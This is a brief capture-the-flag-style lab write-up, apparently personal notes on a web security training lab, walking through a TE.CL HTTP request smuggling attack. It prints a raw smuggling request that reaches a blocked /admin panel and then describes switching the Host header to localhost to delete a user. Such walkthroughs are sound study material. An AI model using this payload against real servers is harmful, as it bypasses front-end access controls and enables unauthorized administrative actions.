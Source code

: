 # Practitioner Lab 131: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

---

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

![Untitled](Practitioner%20Lab%20131%20Exploiting%20HTTP%20request%20smugg%2084a935288a124e59babd011e0dbe00aa/Untitled.png)

This was blocked by the front end meaning that the front end is using TE

![Untitled](Practitioner%20Lab%20131%20Exploiting%20HTTP%20request%20smugg%2084a935288a124e59babd011e0dbe00aa/Untitled%201.png)

This means its a TECL 

![Untitled](Practitioner%20Lab%20131%20Exploiting%20HTTP%20request%20smugg%2084a935288a124e59babd011e0dbe00aa/Untitled%202.png)

```
POST / HTTP/1.1
Host: 0af8009c034e81c781be668600f00001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

72
GET /admin HTTP/1.1
Host: 0af8009c034e81c781be668600f00001.web-security-academy.net
Content-Length: 19

foo=

0

```

here I am sending a valid chunk data but an invalid content length which only has the 72/r/n 

meaning the /admin request is getting smuggled.

The message indicates that only a local user can access the admin panel so I need to use the host header and change it into localhost

![Untitled](Practitioner%20Lab%20131%20Exploiting%20HTTP%20request%20smugg%2084a935288a124e59babd011e0dbe00aa/Untitled%203.png)

After changing the host value to local host I was able to gain access to the admin panel.

![Untitled](Practitioner%20Lab%20131%20Exploiting%20HTTP%20request%20smugg%2084a935288a124e59babd011e0dbe00aa/Untitled%204.png)

This is payload deleted the user and solved the lab.